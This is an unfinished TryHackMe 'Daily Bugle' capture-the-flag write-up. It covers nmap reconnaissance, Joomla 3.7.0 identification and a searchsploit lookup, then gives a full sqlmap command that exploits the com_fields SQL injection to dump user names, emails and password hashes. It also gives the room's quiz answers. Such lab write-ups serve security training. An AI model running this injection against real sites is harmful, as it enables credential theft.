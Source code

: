 # Daily Bugle

- [Tools](#tools)
- [Deploy](#deploy)
- [Obtain user and root](#obtain-user-and-root)
- [Credits](#credits)

Room Link: https://tryhackme.com/room/dailybugle

## Tools 

1. NMap
2. JoomScan https://github.com/OWASP/joomscan
3. SearchSploit https://www.exploit-db.com/searchsploit

## Deploy 

1. Start the machine and open the ip in browser.
2. Opening the site shows favicon of joomla on main page and a image with a man masked as spider man, looks like an robber.
3. Question `Access the web server, who robbed the bank?` Answer `spiderman`

## Obtain user and root

1. Running nmap gives some ports.
```bash
nmap -A 10.10.250.153
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 11:33 IST
Nmap scan report for 10.10.250.153
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.97 seconds
```
2. Question `What is the Joomla version?` Answer `3.7.0`
Got this details using OWASP joomscan by Mohammad Reza Espargham , Ali Razmjoo.
Command used: `joomscan  -u http://10.10.250.153/`
4. Using SearchSploit by exploitDB gives us SQL injection exploits on this joomla CMS version.
```bash
searchsploit joomla 3.7.0
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```
5. After some reasearch on the exploit and using some commands in SQLMap, we cracfted a command to get password hash of users. `sqlmap -u "http://10.10.123.253/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C name,username,email,password --dump`
6. 

## Credits



Author: Zishan Ahamed Thandar
